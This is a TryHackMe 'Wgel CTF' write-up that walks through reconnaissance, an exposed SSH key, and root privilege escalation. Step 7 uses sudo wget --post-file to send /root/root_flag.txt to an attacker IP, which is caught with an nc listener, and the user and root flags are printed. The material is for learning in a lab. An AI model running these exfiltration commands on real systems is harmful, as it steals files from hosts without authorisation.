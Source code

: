 ```yaml
---
title: "TryHackMe | Wgel CTF Write Up 01"
date: 2025-01-29 00:00:00 +0800
category: [Try Hack Me, Easy]
tags: [thm, writeups, web, boot to root]
image: Images/WriteUp-Image/THM/Easy/wgelctf/wWgel CTF 1.webp
alt: "wgel ctf"
---
```


## Step 1: Initial Reconnaissance with Nmap

### Command Used:

```sh
nmap -sV -sC -T4 -A 10.10.188.189
```

### Explanation:

- `-sV`: Detects service versions.
    
- `-sC`: Runs default scripts.
    
- `-A`: Enables OS detection, script scanning, and traceroute.
    
- `-T4`: Uses faster timing for scanning.
    

### Scan Results:

- Port 22 (SSH) is open, running OpenSSH 7.2p2 on Ubuntu.
    
- Port 80 (HTTP) is open, running Apache 2.4.18.
    
- OS detected: Linux.
    

### Next Steps:

Since an HTTP server is running, we will enumerate it further.

---

## Step 2: Enumerating the Web Server with Dirsearch

### Command Used:

```sh
dirsearch -u http://10.10.188.189
```

### Explanation:

- `dirsearch` is a tool used to find hidden directories and files on a web server.
    
- `-u http://10.10.188.189`: Specifies the target URL.
    

### Results:

- Found `/sitemap/`, indicating possible hidden files or directories.
    

---

## Step 3: Digging Deeper into `/sitemap/`

### Command Used:

```sh
dirsearch -u http://10.10.188.189/sitemap/
```

### Findings:

- `/sitemap/.ssh/id_rsa` was found.

![[Pasted image 20250401212512.png]]

![[Pasted image 20250401215101.png]]

- This file is likely an **SSH private key**, which can be used to log in to the system.
    

### Next Steps:

Download the `id_rsa` file and use it for SSH access.

---

## Step 4: Gaining SSH Access

### Commands Used:

```sh
nano id_rsa  # Open the file to view its contents
chmod 600 id_rsa  # Set proper permissions
ssh -i id_rsa jessie@10.10.188.189  # Log in using SSH key
```

### Explanation:

- `nano id_rsa`: Opens the SSH key.
    
- `chmod 600 id_rsa`: Ensures the key is secure.
    
- `ssh -i id_rsa jessie@10.10.188.189`: Logs in as user `jessie`.
    

### Result:

We successfully gained access to the machine as user `jessie`.

---

## Step 5: Finding User Flag

### Command Used:

```sh
locate flag.txt
cat /home/jessie/Documents/user_flag.txt
```

### Explanation:

- `locate flag.txt`: Searches for flag files.
    
- `cat /home/jessie/Documents/user_flag.txt`: Displays the user flag.
    

### Result:

- Found user flag: `057c67131c3d5e42dd5cd3075b198ff6`.
    

---

## Step 6: Privilege Escalation

### Command Used:

```sh
sudo -l
```

### Explanation:

- `sudo -l`: Lists commands the user can run as root.
    

### Result:

- User `jessie` can run `wget` as root.
    

---

## Step 7: Exploiting `wget` for Root Access

### Command Used:

```sh
sudo wget --post-file=/root/root_flag.txt http://10.6.33.153:443
```

### Explanation:

- This command uploads the root flag to an external server.
    
- We set up a listener to capture the flag.



---

## Step 8: Setting Up a Listener to Capture Root Flag

### Command Used:

```sh
nc -nlvp 443
```

### Explanation:

- `nc`: Netcat, used for network communication.
    
- `-n`: No DNS resolution.
    
- `-l`: Listen mode.
    
- `-v`: Verbose output.
    
- `-p 443`: Listen on port 443.
    

### Result:

- Captured root flag: `b1b968b37519ad1daa6408188649263d`.
    

---

## Conclusion

- We started with an **Nmap scan** to discover open ports.
    
- Used **Dirsearch** to find hidden directories.
    
- Found an **SSH key** and gained initial access.
    
- Located **user flag**.
    
- Used **sudo privileges** to escalate access to root.
    
- Retrieved the **root flag** using `wget`.
    

This is a basic example of a Capture The Flag (CTF) challenge walkthrough, demonstrating **recon, privilege escalation, and exploitation**. Keep practicing on platforms like TryHackMe and Hack The Box to sharpen your skills!

### Additional Resources:

- Nmap Cheatsheet: [https://nmap.org/book/man.html](https://nmap.org/book/man.html)
    
- Dirsearch Guide: [https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)
    
- Netcat Guide: [https://linux.die.net/man/1/nc](https://linux.die.net/man/1/nc)
    

Happy Hacking! 🚀
